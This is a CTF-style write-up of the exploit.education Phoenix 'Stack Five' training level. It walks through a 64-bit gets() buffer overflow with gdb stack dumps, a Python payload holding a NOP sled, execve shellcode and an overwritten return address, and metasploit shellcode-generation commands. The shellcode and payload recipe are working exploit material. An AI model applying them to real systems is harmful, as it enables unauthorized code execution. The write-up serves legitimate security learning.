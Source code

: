 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x5"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack Five](https://exploit.education/phoenix/stack-five/)

<!--more-->

We will use this example as an intro to 64-bit exploitation (mostly because I failed the 32-bit version :P)

1. Identify the vulnerability

The call to `gets` in `start_level` is not bounds-checked. Thus, we can overflow the `buffer` variable by providing input longer than 128 bytes. The goal is to overwrite the stored return address and jump to our own shellcode.

2. Plan of action

Since there is no ASLR and the stack is executable, our payload should look something like this on the stack:

```
[NOP sled]
[execve("/bin/dash") shellcode]
[NOP padding]
[Address of buffer to return to NOP sled]
```

3. Exploit development

In order to exploit this bug, we must first find the address of the buffer and, more importantly, the offset of the return address. We'll use gdb:

```bash
(gdb) disas main
Dump of assembler code for function main:
0x00000000004005a4 <+0>:     push   %rbp
0x00000000004005a5 <+1>:     mov    %rsp,%rbp
0x00000000004005a8 <+4>:     sub    $0x10,%rsp
0x00000000004005ac <+8>:     mov    %edi,-0x4(%rbp)
0x00000000004005af <+11>:    mov    %rsi,-0x10(%rbp)
0x00000000004005b3 <+15>:    mov    $0x400620,%edi
0x00000000004005b8 <+20>:    callq  0x400400 <puts@plt>
0x00000000004005bd <+25>:    mov    $0x0,%eax
0x00000000004005c2 <+30>:    callq  0x40058d <start_level>
0x00000000004005c7 <+35>:    mov    $0x0,%eax
```

To find the stack address of the stored return address we can set a breakpoint
in `start_level` and inspect the stack. On the stack, we are looking for `4005c7`because this is where we will return to.
We can additionally provide some input to the program to find the address of the `buffer` variable.

```bash
(gdb) break start_level
Breakpoint 1 at 0x400591

(gdb) disas start_level
Dump of assembler code for function start_level:
0x000000000040058d <+0>:     push   %rbp
0x000000000040058e <+1>:     mov    %rsp,%rbp
=> 0x0000000000400591 <+4>:     add    $0xffffffffffffff80,%rsp
0x0000000000400595 <+8>:     lea    -0x80(%rbp),%rax
0x0000000000400599 <+12>:    mov    %rax,%rdi
0x000000000040059c <+15>:    callq  0x4003f0 <gets@plt>
0x00000000004005a1 <+20>:    nop
0x00000000004005a2 <+21>:    leaveq
0x00000000004005a3 <+22>:    retq
End of assembler dump.

(gdb) break *start_level+20
Breakpoint 2 at 0x4005a1

(gdb) c
Continuing.
AAAAA

Breakpoint 2, 0x00000000004005a1 in start_level ()

(gdb) x/64xw $rsp
0x7fffffffe490: 0x41414141      0x00000041      0x00400620      0x00000000
0x7fffffffe4a0: 0x004005a4      0x00000000      0x00000000      0x00000000
0x7fffffffe4b0: 0x00000000      0x00000000      0xf7db6dde      0x00007fff
0x7fffffffe4c0: 0x004005a4      0x00000000      0x00680037      0x00000000
0x7fffffffe4d0: 0x00000000      0x00000000      0xf7db6b1e      0x00007fff
0x7fffffffe4e0: 0xf7ffb300      0x00007fff      0x00000000      0x0a000000
0x7fffffffe4f0: 0xf7ffb300      0x00007fff      0xf7db9934      0x00007fff
0x7fffffffe500: 0xffffe588      0x00007fff      0xffffe530      0x00007fff
0x7fffffffe510: 0xffffe530      0x00007fff      0x004005c7      0x00000000
0x7fffffffe520: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe530: 0x00000001      0x00000000      0xf7d8fd62      0x00007fff
0x7fffffffe540: 0x00000000      0x00000000      0xffffe580      0x00007fff
0x7fffffffe550: 0x00000000      0x00000000      0xf7ffdbc8      0x00007fff
0x7fffffffe560: 0x00003e00      0x04000001      0x00400459      0x00000000
0x7fffffffe570: 0x00000000      0x00000000      0x00400436      0x00000000
0x7fffffffe580: 0x00000001      0x00000000      0xffffe7cc      0x00007fff
```

First, we break on `start_level` to then disassemble the function to find the end of the function. Note that we could have directly disassembled the function saving us one breakpoint. We run the program with some valid input. Then we inspect the stack (note, it's `$rsp` instead of `$esp`. We're dealing with a 64-bit register now).

Inspecting the stack gives us the following data:

- buffer address: 0x7fffffffe490
- return address location: 0x7fffffffe518 
- offset: 136

Using this information we can craft a payload:

```python
buf = "\x90" * 20
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
buf += "\x90"* (136 - len(buf)) + "\x7f\xff\xff\xff\xe4\xe0"[::-1]
print buf
```

The shellcode is from http://shell-storm.org/shellcode/files/shellcode-806.php

We start with a NOP sled to give us some flexibility with the exact location of the shellcode. Next, we place our shellcode in the buffer. This is what will be executed later. We fill the remaining space of the buffer with NOPs and overwrite the non-null part of the stored return address with what we believe is an address somewhere in our NOP sled. 

It's very important to note that the location of the stack might differ in gdb since it places additional environment variables before the stack.
To emulate a more realistic execution environment, you can unset these variables in gdb before executing the program:

```bash
unset env LINES
unset env COLUMNS
```

See also: https://reverseengineering.stackexchange.com/questions/2995/illegal-instruction-exploiting-sample-buffer-overflow-code

Even then, some experimentation with the return address and the length of the NOP slide might be required.

# Exploit

Now we are ready to run the exploit:

```bash
user@phoenix-amd64:/opt/phoenix/amd64$ python ~/stack-five.py > ~/stack-five
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-five < ~/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:/opt/phoenix/amd64$
```

Nothing happened? The reason is that using input redirection with `<` immediately terminates the program once the end of input is reached. Instead we need to pipe in the input with `cat ~/stack-five - | ./stack-five`. The `-` keeps stdin open. 

```bash
user@phoenix-amd64:/opt/phoenix/amd64$ whoami
user
user@phoenix-amd64:/opt/phoenix/amd64$ cat ~/stack-five - | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

We popped a shell! Awesome :)

# Alternative, generate shellcode with metasploit 
```
  use payload/linux/x64/exec
  info
  set CMD /bin/sh
  info
  generate -b '\x00' -f python
```
